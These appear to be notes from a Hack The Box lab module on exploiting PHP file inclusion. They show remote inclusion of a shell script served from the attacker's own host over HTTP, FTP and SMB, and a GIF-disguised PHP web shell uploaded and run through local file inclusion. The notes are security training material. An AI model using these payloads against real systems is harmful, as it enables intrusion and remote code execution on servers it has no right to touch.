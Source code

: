 Now, we can include our local shell through RFI, like we did earlier, but using `<OUR_IP>` and our `<LISTENING_PORT>`. We will also specify the command to be executed with `&cmd=id` :

```
http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id
```

### FTP : 

We can start a basic FTP server with Python's `pyftpdlib`, as follows :

```shell
NolanCarougeHTB@htb[/htb]$ sudo python -m pyftpdlib -p 21
```

```
http://<SERVER_IP>:<PORT>/index.php?language=ftp://<OUR_IP>/shell.php&cmd=id
```

```shell
NolanCarougeHTB@htb[/htb]$ curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
```

### SMB : 

We can spin up an SMB server using `Impacket's smbserver.py`, which allows anonymous authentication by default, as follows :

```shell
NolanCarougeHTB@htb[/htb]$ impacket-smbserver -smb2support share $(pwd)
```

Now, we can include our script by using a UNC path (e.g. `\\<OUR_IP>\share\shell.php`), and specify the command with (`&cmd=whoami`) as we did earlier :

```
http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=whoami
```

## LFI and File Uploads : 

We can upload an image file (e.g. `image.jpg`), and store a PHP web shell code within it 'instead of image data', and if we include it through the LFI vulnerability, the PHP code will get executed and we will have remote code execution.

Our first step is to create a malicious image containing a PHP web shell code that still looks and works as an image.

```shell
NolanCarougeHTB@htb[/htb]$ echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

```
http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id
```

We can utilize the [zip](https://www.php.net/manual/en/wrappers.compression.php) wrapper to execute PHP code.
